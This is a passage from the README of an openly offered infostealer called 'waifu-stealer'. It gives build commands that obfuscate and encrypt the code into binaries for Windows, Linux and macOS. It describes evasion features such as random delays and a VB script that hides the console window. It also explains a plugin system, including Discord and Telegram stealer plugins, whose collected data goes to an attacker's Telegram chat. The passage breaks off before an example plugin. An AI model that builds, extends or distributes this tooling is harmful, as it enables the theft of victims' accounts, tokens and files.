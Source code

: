 ### Generate binary

- `chatId`: Telegram chat ID
- `token`: Telegram bot token
- `debug`: Debug mode (prints more info)
- `no-random-delays`: Do not wait (if not provided, the script will randomly wait between 5 and 35 seconds before running and before starting each plugin)
- `disabled-plugins`: Comma-separated list of plugins to disable (i.e. `discord-stealer-plugin,telegram-stealer-plugin`)

```sh
# Obfuscate and encrypt the code
npm run -- build --chatId=<telegram_chat_id> --token=<telegram_token> [--no-random-delays] [--disabled-plugins=<plugin1,plugin2,...>] [--debug]
# node builder.js [...]

# Generate the binary for the target system and architecture
npm run pkg-windows
npm run pkg-linux
npm run pkg-linux-arm
npm run pkg-macos
npm run pkg-macos-arm
```

## Run

Run the `hello.exe` binary.

If you want to execute the binary by double clicking on it, hide the console window by running the provided VB script (see [`run_hidden_windows.vbs`](./run_hidden_windows.vbs)).

## Create your own plugin

Your project's entrypoint must be called `lib.js`. Your project folder must be placed in the [`plugins`](./plugins) directory and have its name end with `-plugin`.

If you have dependencies (`package.json`), do not forget to install them. An NPM workspace is configured for plugins, so running this in the `waifu-stealer` root directory should auto-resolve plugins dependencies.

```sh
npm install --dev
```

Your `lib.js` file must export a function called `run`, which will be awaited.

The data returned by your `run` function will get sent to the Telegram chat (string: sent as is, object: JSON prettified in a code block), returning is optional.

Provided functions:

- `sendMessageFn`: Send a message to the Telegram chat
- `uploadFileFn`: Upload a file to the Telegram chat

Example minimal plugin:
